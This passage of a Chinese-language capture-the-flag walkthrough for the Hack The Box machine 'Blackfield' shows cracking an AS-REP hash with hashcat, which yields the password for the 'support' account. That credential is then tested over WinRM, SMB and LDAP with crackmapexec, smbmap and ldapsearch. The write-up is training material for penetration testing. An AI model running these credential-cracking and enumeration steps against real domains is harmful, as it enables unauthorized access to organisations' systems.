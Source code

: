 存入 `svc.asrep.hash`

尝试爆破

```bash
hashcat -m 18200 svc.asrep.hash /usr/share/wordlists/rockyou.txt --force
```

得到一组凭据 ：`support:#00^BlackKnight`



再尝试利用这组凭据得到更多的信息：

winrm：失败，无法远程登录

```bash
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```



smb：有信息，但不多

```bash
└─# crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
```

```bash
└─# smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
[+] IP: 10.10.10.192:445	Name: 10.10.10.192                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```



ldap：失败

```bash
ldapsearch -H ldap://10.10.10.192 -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local'
```



ldap：成功

```bash
ldapsearch -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight' > support_ldap_dump
```
